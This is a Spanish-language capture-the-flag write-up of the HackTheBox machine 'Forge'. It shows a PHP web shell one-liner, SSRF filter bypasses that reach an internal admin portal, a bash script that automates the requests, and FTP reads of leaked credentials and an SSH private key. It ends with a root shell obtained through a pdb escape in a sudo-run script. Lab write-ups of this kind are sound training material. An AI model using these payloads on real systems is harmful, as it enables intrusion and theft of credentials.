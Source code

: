 # 10.10.11.111 Forge

![Forge](https://user-images.githubusercontent.com/96772264/197260987-85ebb272-8713-4a8a-9cac-37ffe8df0d60.png)

--------------------------

### PARTE 1. Reconocimiento

Con el script de escaneo en bash hemos descubierto los puertos 22(ssh) y 80(http)

```console
└─$ whatweb http://10.10.11.111
http://10.10.11.111 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.111], RedirectLocation[http://forge.htb], Title[302 Found]
```
Vamos a meter en el /etc/hosts el nombre Forge.htb.

--------------------------

### PARTE 2. SSRF

Entramos y tenemos una galeria de fotos:
![forge1](https://user-images.githubusercontent.com/96772264/197259772-e7ec0e1e-83aa-4fe6-975f-7042f5296bcc.png)

Tambien una ruta para subir una imagen.
Subimos la clásica shell.php  ```<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>``` y nos dan el enlace para visualizarlo:   ```http://forge.htb/uploads/lYl9YmpShrA2sOWeUw96``` Donde nos dicen que la foto no se puede visualizar y tiene errores.  
El asunto esque se inutiliza la shell porque muestra su codigo y no lo interpreta. Al ponerle por tanto un parametro como ```?cmd=whoami``` da un error 404.   

La otra opcion que tenemos es la de subir una foto por una url. (No se puede subir nada de internet porque por motivos de seguridad las maquinas de  hackthebox no
tienen salida a internet).
Como podemos meter una ruta,  a la que la web le hace una peticion, vamos a intentar un SSRF (mostrar urls de solo acceso interno, al ser la maquina la que hace la
peticion, y no nadie de fuera, las deberia mostrar)

![forge2](https://user-images.githubusercontent.com/96772264/197260837-9d7b9027-2708-4873-a246-cc4069401a13.png)

Ponemos ```http://localhost``` y nos dice que esta whitelisteado. Si ponemos ```http://127.1``` (otra manera de referenciar al localhost, no hay  problema).
Poniendo el nombre de la maquina ```http://forge.htb``` no, pero si cambiamos mayusculas por minusculas si ```http://ForGe.HtB```. 
Siguiendo el enlace dice que la foto tiene errores pero si le hacemos un curl ya nos da el codigo fuente de la pagina. 

Peticion -> POST a http://forge.htb/upload -> url=http://ForGe.hTb&remote=1

Como ya tenemos como meter el localhost, podemos acceder a subdominios restringidos y demas:
```console
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://forge.htb
Found: test2.forge.htb (Status: 302) [Size: 281]
Found: news.forge.htb (Status: 302) [Size: 280]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://forge.htb -r
Found: admin.forge.htb (Status: 200) [Size: 27]
```
Me hice un script para que filtre el enlace y le haga una peticion curl (ya que si esperas mucho borra todo lo que hayas subido a/uploads)

```bash
#!/bin/bash

while true
do
	echo -n "$:> " && read url
	link=$(curl -s -X POST http://forge.htb/upload -d "url=$url&remote=1" | grep -oE '<strong><a href=".*?"' | awk '{print $2}' FS="=" | tr -d '"')
	curl -s $link
done
```
```console
└─$ ./forge.sh
$:>
$:> http://aDmIn.FoRgE.HtB
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
<h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
$:> http://aDmIn.FoRgE.HtB/announcements
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=<url>;.</li>
$:> ftp://user:heightofsecurity123!@FoRgE.hTb
curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
```
--------------------------

### PARTE 3. SSRF a /upload privilegiado

No deja acceder al ftp directamente, pero nos dice que la ruta ```/uploads?u``` permite mostrar archivos, a esta ruta seguimos accediendo con el SSRF 
ya que el **admin.** no esta expuesto hacia fuera.
```console
$:> http://aDmIn.FoRgE.HtB/upload?u=http://aDmIn.FoRgE.HtB
```
Este /upload?u es de **admin.forge** no el mismo upload que **forge** asi que aunque el otro no lo admita este si.
> upload (normal) -> no ftp
> upload (normal) -> upload(admin)?u=ftp://

```console
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Oct 16 09:33 user.txt
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/user.txt
c8b54a838595536f1e761245432be86a
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/../../../../../
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Oct 16 09:33 user.txt
```
Como el ftp nos muestra el /home (y no hay nada mas) pues hay que ver si hay un directorio *.ssh*
```console
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/.ssh/      
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/.ssh/id_rsa  
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
....
```

Para explicar todo este lio de una manera mas visual:
![forge htb](https://user-images.githubusercontent.com/96772264/196032318-a1670655-e326-4151-b3b7-c403aa5d30ab.png)

--------------------------

### PARTE 4. Escalada de Privilegios

Modifique el script para que guardara esto en un archivo id_rsa y luego ```chmod 600 ./id_rsa```.
```console
└─$ ssh -i id_rsa user@10.10.11.111
```
Ejecuto mi script de enumeracion:
- No hay ni SUIDS ni Capabilities interesantes
- Se puede ejecutar como SUDO sin contraseña: /usr/bin/python3 /opt/remote-manage.py
```console
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:34142
^C
```
No se que tiene este script:
```console
user@forge:~$ cat /opt/remote-manage.py
if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
```
Utiliza la libreria subprocess, ejecutando comandos como ```ps -faux``` pero en un contexto cerrado (o sea hay que eleigr una opcion no puedes meter
input directamente y liarla). 

```console
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:38099
└─$ ssh -i id_rsa user@10.10.11.111
user@forge:~$ nc 127.0.0.1 38099
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

El asunto esque si pasa una exception (o sea metes algo que no sea ningun comando de los de arriba) sale a pdb

```console
What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
a
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:38099
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) os.system("/bin/bash")
root@forge:/home/user# whoami
root
```

En el directorio /root están tanto la root.txt como un script que borra todo lo que haya en /uploads y que se ejecuta cada poco tiempo.
